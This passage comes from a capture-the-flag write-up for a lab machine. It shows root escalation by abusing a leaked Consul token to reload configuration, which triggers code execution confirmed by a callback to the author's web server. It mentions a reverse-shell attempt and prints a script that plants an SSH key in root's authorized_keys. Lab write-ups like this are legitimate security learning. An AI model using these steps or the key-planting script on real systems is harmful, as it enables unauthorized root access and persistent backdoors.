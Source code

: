 The previous commit was using a token to set the password in Consul. I tried using the token to reload the configuration and it worked.

### Success 

```bash
developer@ambassador:/opt/my-app$ consul reload --token REDACTED
Configuration reload triggered
```

I had to copy my configuration again since the cleanup script had erased it. I reloaded again, and a few seconds later, I got a hit on my web server. I had code execution.

```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


10.129.228.56 - - [11/Nov/2022 15:10:07] code 404, message File not found
10.129.228.56 - - [11/Nov/2022 15:10:07] "GET /consul HTTP/1.1" 404 -
```

I modified the exploit script to open a reverse shell instead of sending a web request. A few seconds later, I got a hit on my netcat listener. I was connected as root, but the connection got closed immediately. I thought it was the timeout of 1 second that killed it so I changed it to 24 hours. But my connection got killed anyway.

I could have tried to figure it out, but I thought it would be simpler to go another way. I changed the script to copy my SSH public key to root's authorized keys.

```bash
developer@ambassador:~$ cat /tmp/exploit.sh
#!/bin/bash

mkdir /root/.ssh/
chmod 700 /root/.ssh

echo -n "ssh-rsa AAAA..." > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

Then, I connected as root and read the flag.

```bash
$ ssh root@target                                          
The authenticity of host 'target (10.129.228.56)' can't be established.
ED25519 key fingerprint is SHA256:zXkkXkOCX9Wg6pcH1yaG4zCZd5J25Co9TrlNWyChdZk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 11 Nov 2022 08:18:23 PM UTC

  System load:           0.15
  Usage of /:            80.9% of 5.07GB
  Memory usage:          49%
  Swap usage:            0%
  Processes:             236
  Users logged in:       1
  IPv4 address for eth0: 10.129.228.56
  IPv6 address for eth0: dead:beef::250:56ff:feb9:dadc

 * Super-optimized for small spaces - read how we shrank the memory
```
